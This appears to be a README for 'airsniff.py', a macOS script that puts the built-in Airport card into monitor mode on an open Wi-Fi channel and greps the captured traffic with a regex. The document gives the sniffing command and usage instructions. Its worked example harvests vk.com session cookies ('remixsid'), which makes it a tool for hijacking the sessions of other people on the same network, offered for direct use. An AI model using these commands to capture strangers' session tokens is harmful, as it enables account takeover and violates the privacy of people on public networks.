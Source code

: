 This is quite simple script. You can do all this stuff manually without the script.

It use built-in Airport Extreme card for grab your pattern from wireless traffic.

It can be used **only in open Wi-Fi network**.

#### What it doing: 

* Swith Airport card into monitor mode on selected channel.
```sudo "/System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport" en0 sniff 10```
Where en0 - Aiport card, 10 - channel. It will write dump in .cap file localted in /tmp/.

To find which channel use your network hold ```Alt``` and click on wifi icon:

![CHANNEL](http://cdn.zhovner.com/forever/wifi_channel.png)

* Match your regexp in .cap file in cycle and exclude duplicates strings.

#### Usage:

```sudo airsniff.py <channell> <\"pattern\">````

<channell> - wifi channel
<\"pattern\"> - regexp that will grep /tmp/*.cap file. Quotes and backslashes required!

Example for vk.com: 
```airsniff.py 10 \"remixsid=[a-z0-9]{68}\"```

